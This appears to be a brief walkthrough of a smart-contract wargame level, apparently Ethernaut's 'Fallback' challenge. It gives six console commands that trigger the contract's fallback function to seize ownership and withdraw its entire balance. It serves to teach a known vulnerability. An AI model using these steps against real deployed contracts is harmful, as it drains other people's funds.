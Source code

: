# How can I become the owner of this contract?

# : contribute function limits the amount of ether I can send to the contract to less than 0.001 ether. Within the same function, unless I send the contract more than the current owner's contributions, I cannot become the new owner. 

# : My next option is to use the fallback function. To pass the requirements, I took the steps below.

1. Use contribute function to add my contributions. 
`contract.contribute({value:1})`
2. Check `msg.sender`'s contributions
`(await contract.getContribution()).toNumber()`
3. Use a function, that is not defined yet payable in the contract. This will fire the contract's fallback function.
`contract.sendTransaction({value:1})`
4. Check the new owner. 
`await contract.owner()`
5. As the new owner, `msg.sender` can now withdraw all existing funds.
`contract.withdraw()`
6. Check if the contract's balance is 0.
`await getBalance(contract.address)`